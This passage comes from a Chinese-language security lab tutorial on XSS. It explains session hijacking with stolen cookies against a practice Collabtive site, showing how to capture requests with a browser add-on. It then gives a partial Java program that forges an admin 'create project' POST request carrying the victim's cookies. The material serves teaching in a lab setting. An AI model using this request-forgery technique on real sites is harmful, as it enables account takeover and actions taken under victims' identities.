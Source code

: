 ### 4、使用获取的cookie进行会话劫持 

当获取了受害者的cookie以后，我们可以干嘛呢？可以利用cookie登录用户，也就是会话劫持；

>会话劫持：窃取受害者的cookie后,攻击者可以仿造受害者向服务器发送请求,包括代表受害者创建一个新项目,发帖子,删除等等。从本质上讲, 就是劫持受害者的会话。

首先,我们查看受害者创建项目时候的请求：

这里使用的工具是之前提到的 `live http headers` 工具，点击浏览器的 tools-》add-ons ，在搜索框输入 live http header 就可以找到，点击 install 即可安装，安装后重启浏览器就可以了。我这里是已经安装了，截图如下：

![3.4-1](https://dn-simplecloud.shiyanlou.com/uid/8797/1524647286699.png-wm)

为避免之前登录过的影响，我们先清理一下浏览器历史，点击 History-》Clear Recent History ：

![3.4-2](https://dn-simplecloud.shiyanlou.com/uid/8797/1524647662626.png-wm)

然后点击浏览器 tools-》 live http headers，打开之前添加的工具。再输入 www.xsslabcollabtive.com 访问并登录。就可以在 live http headers 的窗口看到很多类似如下的内容。当然，你显示的内容跟我的有些地方可能不一样。

![3.4-3](https://dn-anything-about-doc.qbox.me/userid9094labid882time1429159724192?watermark/1/image/aHR0cDovL3N5bC1zdGF0aWMucWluaXVkbi5jb20vaW1nL3dhdGVybWFyay5wbmc=/dissolve/60/gravity/SouthEast/dx/0/dy/10)

当攻击者知道了创建项目的请求以后，就可以编写一个Java程序发送相同的HTTP请求达到创建项目的目的，当然还可以进行其他的请求：

>HTTP访问请求：

>1、打开一个连接到web服务器。

>2、设置必要的HTTP头信息。

>3、发送请求到web服务器。

>4、得到来自web服务器的响应。

在 /home/shiyanlou 目录下新建一个 HTTPSimpleForge.java 的文件，内容如下（**注意：根据你自己所得的 live http header 内容来，下面的代码需要变通** ）：


```java
    import java.io.*;
    import java.net.*;
    public class HTTPSimpleForge {
    public static void main(String[] args) throws IOException {
    try {
    int responseCode;
    InputStream responseIn=null;
    // URL to be forged.
    URL url = new URL ("http://www.xsslabcollabtive.com/admin.php?action=addpro");
    // URLConnection instance is created to further parameterize a
    // resource request past what the state members of URL instance
    // can represent.
    URLConnection urlConn = url.openConnection();
    if (urlConn instanceof HttpURLConnection) {
    urlConn.setConnectTimeout(60000);
    urlConn.setReadTimeout(90000);
    }
    // addRequestProperty method is used to add HTTP Header Information.
    // Here we add User-Agent HTTP header to the forged HTTP packet.
    // Add other necessary HTTP Headers yourself. Cookies should be stolen
    // using the method in task3.
    urlConn.addRequestProperty("User-agent","Sun JDK 1.6");
    //HTTP Post Data which includes the information to be sent to the server.
    String data="name=test&desc=test...&assignto[]=...&assignme=1";
    // DoOutput flag of URL Connection should be set to true
    // to send HTTP POST message.
    urlConn.setDoOutput(true);
    // OutputStreamWriter is used to write the HTTP POST data
    // to the url connection.
    OutputStreamWriter wr = new OutputStreamWriter(urlConn.getOutputStream());
```